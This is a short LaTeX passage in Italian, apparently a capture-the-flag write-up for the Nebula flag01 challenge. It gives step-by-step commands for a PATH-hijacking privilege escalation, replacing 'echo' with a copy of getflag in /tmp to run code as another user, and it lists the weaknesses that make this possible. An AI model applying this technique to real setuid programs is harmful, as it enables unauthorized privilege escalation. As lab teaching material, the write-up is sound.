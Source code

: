 \subsection{Idea per risolvere la sfida}
Copiamo \textbf{/bin/getflag} in una cartella temporanea \textbf{tmp} e diamogli nome \textbf{echo} con il comando: \begin{lstlisting}[style=bashstyle]
    cp /bin/getflag /tmp/echo
\end{lstlisting}
Alteriamo il percorso di ricerca delle variabili d'ambiente in modo da preporre \textbf{/tmp} alla lista delle variabili d'ambiente con il comando: 
\begin{lstlisting}[style=bashstyle]
    PATH=/tmp:$PATH
\end{lstlisting}
Questo è quello che succede:
\begin{itemize}
    \item Il comando env prova a caricare il file eseguibile echo
    \item Poiché echo non ha un percorso assoluto, sh usa i percorsi di ricerca per individuare il file da eseguire 
    \item sh individua /tmp/echo come primo candidato all’esecuzione, dato che l'abbiamo posto per primo
    \item sh esegue /tmp/echo con i privilegi dell’utente flag01
\end{itemize}

\subsection{Sintesi comandi da eseguire}
I comandi da eseguire sul terminale della macchina sono i seguenti:
\begin{lstlisting}[style=bashstyle] 
    # copia getflag in echo
    cp /bin/getflag /tmp/echo
    # aggiorna PATH
    PATH=/tmp:$PATH
    # esegui flag01
    /home/flag01/flag01
\end{lstlisting}
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item privilegi di esecuzione ingiustamente elevati
    \item versione bash che non abbassa i privilegi di esecuzione
    \item manipolazione variabile PATH
\end{itemize}

